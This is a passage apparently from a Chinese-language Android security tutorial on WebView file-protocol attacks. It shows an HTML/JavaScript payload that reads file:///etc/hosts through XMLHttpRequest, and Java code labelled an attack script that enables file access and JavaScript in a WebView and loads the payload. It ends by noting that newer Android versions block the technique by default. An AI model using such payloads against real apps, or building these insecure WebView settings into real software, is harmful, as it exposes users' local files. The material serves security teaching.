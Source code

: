 fileAttack.html  
```
<script>
function loadXMLDoc()
{
    var arm = "file:///etc/hosts";
    var xmlhttp;
    if (window.XMLHttpRequest)
    {
        xmlhttp=new XMLHttpRequest();
    }
    xmlhttp.onreadystatechange=function()
{
        //alert("status is"+xmlhttp.status);
        if (xmlhttp.readyState==4)
        {
              console.log(xmlhttp.responseText);
        }
    }
    xmlhttp.open("GET",arm);
    xmlhttp.send(null);
}
loadXMLDoc();
</script>
```  
  
  
然后我们将文件上传到手机的目录：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiak0JccNLZWaMqmsev7pib0Mflkco1pVDe8mUCxo4iawaXETIs4fj2jGA5A/640?wx_fmt=png "")  
  
接着我们编写攻击脚本  
```
@Override
  protected void onCreate(Bundle savedInstanceState) {
      super.onCreate(savedInstanceState);
      setContentView(R.layout.activity_file_web_view);
      WebView webView = findViewById(R.id.Wind_webview0);
      //设置是否允许 WebView 使用 File 协议
      webView.getSettings().setAllowFileAccess(true);


      //设置是否允许 WebView 使用 JavaScript
      webView.getSettings().setJavaScriptEnabled(true);

      webView.loadUrl("file:///data/local/tmp/fileAttack.html");

  }
```  
  
  
这  
是程序肯定会报错误，因为Android4.1后就默认禁止setAllowFileAccessFromFileURLs(true)  
  